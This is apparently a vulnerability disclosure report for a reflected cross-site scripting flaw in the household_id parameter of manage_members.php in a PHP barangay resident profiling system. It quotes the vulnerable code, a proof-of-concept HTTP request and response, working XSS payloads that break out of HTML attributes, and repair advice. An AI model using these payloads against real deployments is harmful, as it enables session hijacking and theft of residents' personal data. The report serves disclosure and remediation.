

# SourceCodester Barangay Resident Profiling and Information Management System 1.0 /manage_members.php?household_id= Reflected XSS

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18747/barangay-resident-profiling-and-information-management-system-brpms-phpmysql.html
- https://www.sourcecodester.com/sites/default/files/download/oretnom23/brpms_sanfabian.zip

## Overview

- Barangay Resident Profiling and Information Management System (BRPMS, "Barangay San Fabian" build), version 1.0, reflects the unfiltered `household_id` GET parameter of `/manage_members.php` into three HTML attribute contexts, allowing reflected Cross-Site Scripting (XSS). A single crafted URL executes attacker JavaScript in the browser of any logged-in staff member who opens it.

## Details

- Vulnerable file: `/manage_members.php`
- Parameter: `household_id` (GET)
- Affected version: 1.0 (current public download, 2026-11)
- The parameter is taken raw and echoed unescaped in three places:

```php
// manage_members.php:10
$household_id = $_GET['household_id'] ?? null;
```

```php
// manage_members.php:206 — main form action attribute
<form action="manage_members.php?household_id=<?php echo $household_id; ?>" method="post">
// manage_members.php:520 — per-member edit link href
<a href="manage_members.php?household_id=<?php echo $household_id; ?>&edit_id=<?php echo $row['id']; ?>" ...
// manage_members.php:551 — archive modal form action
<form action="manage_members.php?household_id=<?php echo $household_id; ?>" method="post">
```

- The existence check at manage_members.php:24 (`$stmt_h->bind_param("i", $household_id)`) coerces `"1\"><svg...>` to integer `1`, so the page renders normally for household 1 and the payload survives into the markup.

## Description

- `household_id` is echoed into double-quoted `action`/`href` attributes without `htmlspecialchars()`. A payload beginning with `1">` terminates the attribute and the tag, after which arbitrary markup — e.g. `<svg onload=...>` — becomes live HTML. Because :520 sits inside the member table, one payload executes once per rendered member row in addition to the form and modal echoes, amplifying the injected markup. Script running in the application origin can read resident master-list data (names, birthdays, civil status, health flags — sensitive personal data of barangay residents), create/edit/archive members and households via the authenticated endpoints, or hijack the staff session. No authentication bypass is needed; the victim just opens the attacker's link while logged in.

## PoC

- Request (admin session cookie so the page renders instead of redirecting to login):

```
GET /manage_members.php?household_id=1%22%3E%3Csvg%20onload%3DBRPMS-RXSS-1%3E HTTP/1.1
Host: 127.0.0.1:8140
Cookie: PHPSESSID=<admin session>
```

- Response (payload reflected verbatim in all three attribute contexts):

```
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<form action="manage_members.php?household_id=1"><svg onload=BRPMS-RXSS-1>" method="post">
...
<a href="manage_members.php?household_id=1"><svg onload=BRPMS-RXSS-1>&edit_id=..." ...
```

- Executing variant (same injection, instrumented so execution is photographable):

```
GET /manage_members.php?household_id=1"><svg onload="document.title='RXSS-1-FIRED';document.body.insertAdjacentHTML('afterbegin','<h1>XSS-EXECUTED-VIA-REFLECTION</h1>')">
```

## Payload

```
1"><svg onload=BRPMS-RXSS-1>
```

URL-encoded:

```
/manage_members.php?household_id=1%22%3E%3Csvg%20onload%3DBRPMS-RXSS-1%3E
```

## Screenshot: payload executing in the staff member's browser

The screenshot shows the result of opening the instrumented URL: the page title was mutated by the payload to `RXSS-1-FIRED`, and the injected `<h1>XSS-EXECUTED-VIA-REFLECTION</h1>` heading rendered once per reflection point — the member table's per-row edit links (:520) replicate it for every member of the household, filling the viewport with attacker-controlled markup.



Full evidence log: `poc/F02-manage_members-reflected-xss.txt` (complete request/response + screenshot-run addendum).

## Suggested repair

1. Cast to integer at entry: `$household_id = (int)($_GET['household_id'] ?? 0);` — household ids are DB integers; reject non-numeric input with a redirect back to `households.php`.
2. Escape every echo: `htmlspecialchars($household_id, ENT_QUOTES, 'UTF-8')` at :206, :520 and :551, and audit the remaining raw echoes in the file.
3. Keep using prepared statements (they are already in place) — the fix here is purely output encoding plus input typing.
4. Add a `Content-Security-Policy` header as defense in depth.

## Dedup note

- NVD: the only entry for this product is CVE-2026-11515 (hard-coded password in `passsword_reset.php`) — different file, different vulnerability class (checked 2026-11-09).
- VulDB: no entry exists for `manage_members.php` (site search returned none); only VDB-369135 (= CVE-2026-11515) covers this product. The code-projects.org entries CVE-2026-78142/78143/78144 cover other files/vulnerability classes and do not overlap.
